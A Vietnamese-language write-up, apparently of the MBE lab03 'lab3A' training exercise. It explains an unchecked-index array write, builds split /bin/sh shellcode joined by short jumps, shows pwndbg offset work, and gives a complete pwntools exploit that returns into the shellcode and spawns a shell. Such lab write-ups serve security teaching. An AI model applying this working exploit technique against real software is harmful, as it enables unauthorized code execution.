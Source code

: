 # Program 

### Bài này sẽ cho chúng ta 1 chương trình, mình xin được phép tóm tắt như sau:
* store_number: nhập số và nhập index, thỏa điều kiện ---> lưu
* read_number: nhập index ---> xuất ra giá trị tại index đó 
* main: clear env và arg, chạy vòng lặp while true.

Thoạt đầu thì nhìn chương trình rất bình thường, vậy lỗi ở đâu???
Chúng ta cùng xem qua hàm store_number:
```sh
int store_number(unsigned int * data)
{
    unsigned int input = 0;
    unsigned int index = 0;

    /* get number to store */
    printf(" Number: ");
    input = get_unum();

    /* get index to store at */
    printf(" Index: ");
    index = get_unum();

    /* make sure the slot is not reserved */
    if(index % 3 == 0 || (input >> 24) == 0xb7)
    {
        printf(" *** ERROR! ***\n");
        printf("   This index is reserved for quend!\n");
        printf(" *** ERROR! ***\n");

        return 1;
    }

    /* save the number to data storage */
    data[index] = input;

    return 0;
}
```

mình nhận ra rằng chổ lưu dữ liệu của mình có thể bị lỗi, vì không kiểm tra điều kiện. Và mảng data chỉ khai báo có 100 phần tử. Nhưng có nó thể lưu các dữ liệu ở những nơi mà không phải dành cho mảng data.
Vậy mình sẽ dùng shellcode để spawn shell gồm 23 ký tự.
### Nhưng một điều nữa đó là lệnh if không cho phép chúng ta ghi đè shellcode 1 cách liên tiếp.


# solution

Chúng ta sẽ tạo shellcode động (cái tên này mình tự đặt thôi), tức là shellcode của chúng ta sẽ được đặt cách nhau những khoản cố định. 

Vì index % 3  == 0, không được phép sử dụng để đặt dữ liệu vào.

Vì thế chúng ta chỉ còn có `2 index` liền kề. `1 index` sẽ chứa 4 byte.
2 index sẽ chứa được 8 byte.
chúng ta sẽ chia như sau: 6 byte đầu chứa dữ liệu (cụ thể là shellcode), 2 byte cuối chứa lệnh nhảy(hoặc lệnh bỏ qua phần tử).

Đây là shellcode ban đầu:
`shellcode = "\x31\xC0\x50\x68\x2F\x2F\x73\x68\x68\x2F\x62\x69\x6E\x89\xE3\x89\xC1\x89\xC2\xB0\x0B\xCD\x80" `

Và đây là shellcode sau khi đã được điều chỉnh:

```sh

\x31 \xc0 \x50 \x90 

\x90 \x90 \xeb \x04

\x68 \x2f \x2f \x73   

\x68 \x90 \xeb \x04

\x68 \x2f \x62 \x69  

\x6e \x90 \xeb \x04
  
\x89 \xe3 \x89 \xc1   

\x89 \xc2 \xeb \x04

\xb0 \x0b \xcd \x80

```

\xeb\x04 là lệnh nhảy đến nơi chứa shellcode tiếp theo, hoặc là lệnh bỏ qua 4 byte.

Có được shellcode rồi thì chúng ta sẽ đến bước tiếp theo:

mình sẽ kiểm tra security của file
```sh
pwndbg> checksec
[*] '/home/zir/ctf/TrainingPwn/MBE_release/levels/lab03/lab3A'
    Arch:     i386-32-little
    RELRO:    No RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x8048000)
    RWX:      Has RWX segments

```
Đặt 2 breakpoint ở hàm store_number và quit của main.

```sh
pwndbg> break * main + 341
Breakpoint 1 at 0x8048b67
pwndbg> break * main + 553
Breakpoint 2 at 0x8048c3b
```
Run để tính offset

```sh
────────────────────────────[ DISASM ]─────────────────────────────

 ► 0x8048b67 <main+341>    call   store_number <store_number>
        arg[0]: 0xffffcec8 ◂— 0x0
        arg[1]: 0x8048f5d ◂— jae    0x8048fd3 /* 'store' */
        arg[2]: 0x5
        arg[3]: 0x9

--------------------------------------------------------------------
pwndbg> ni
 Number: 1234
 Index: 1
--------------------------------------------------------------------

pwndbg> c
Continuing.
 Completed store command successfully
Input command: quit

--------------------------------------------------------------------
 EAX  0x0
*EBX  0x0
*ECX  0x0
*EDX  0xffffd058 ◂— 'quit'
*EDI  0x0
 ESI  0xf7fb1000 (_GLOBAL_OFFSET_TABLE_) ◂— 0x1d7d8c
*EBP  0x0
*ESP  0xffffd07c —▸ 0xf7df1f21 (__libc_start_main+241) ◂— add    esp, 0x10
*EIP  0x8048c3b (main+553) ◂— ret    
──────────────────────────────[ DISASM ]───────────────────────────

 ► 0x8048c3b  <main+553>                 ret             <0xf7df1f21; __libc_start_main+241>

--------------------------------------------------------------------

pwndbg> p/d 0xffffd07c-0xffffcec8
$1 = 436
pwndbg> p/d 436/4
$2 = 109

```

Vậy thì khi index bằng 109 thì sẽ là hàm main của chúng ta.
Viết file exploit như sau:
```sh
from pwn import *


def store(val,index):
	p.sendline("store")
	p.recv(100)
	p.sendline(str(val))
	p.recv(100)
	p.sendline(str(index))
	p.recv(100)

'''
\x31 \xc0 \x50 \x90 

\x90 \x90 \xeb \x04

\x68 \x2f \x2f \x73   

\x68 \x90 \xeb \x04

\x68 \x2f \x62 \x69  

\x6e \x90 \xeb \x04
  
\x89 \xe3 \x89 \xc1   

\x89 \xc2 \xeb \x04

\xb0 \x0b \xcd \x80

'''
add_buff = 0xffffcecc
while (1):	
	p = process("./lab3A")
	raw_input("DEBUG")
	store(0x9050c031,1)
	store(0x04eb9090,2)

	store(0x732f2f68,4)
	store(0x04eb9068,5)

	store(0x69622f68,7)
	store(0x04eb906e,8)

	store(0xc189e389,10)
	store(0x04ebc289,11)

	store(0x80cd0bb0,13)

	store(add_buff,109)

	p.sendline("quit")
	p.interactive()
	add_buff= add_buff + 4
```
sau khi run file sẽ tăng dần các địa chỉ return về shellcode. Do là khi chạy trên gdb sẽ có chút ít khác so với không dùng gdb vì các tham số, biến môi trường....v.v.

Run file exploit.py
```sh
[+] Starting local process './lab3A': pid 19252
DEBUG
[*] Switching to interactive mode
[*] Got EOF while reading in interactive
$ 

```
sẽ có thể gặp GOT EOF do địa chỉ ko đúng.
Nhấn `Enter` vài lần nữa để thay đổi địa chỉ

```sh
[*] Got EOF while sending in interactive
[+] Starting local process './lab3A': pid 19380
DEBUG
[*] Switching to interactive mode
$ 
$ 
$ 
$ id
uid=1000(zir) gid=1000(zir) groups=1000(zir),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),116(lpadmin),126(sambashare)

```
Và tadaaa... :3

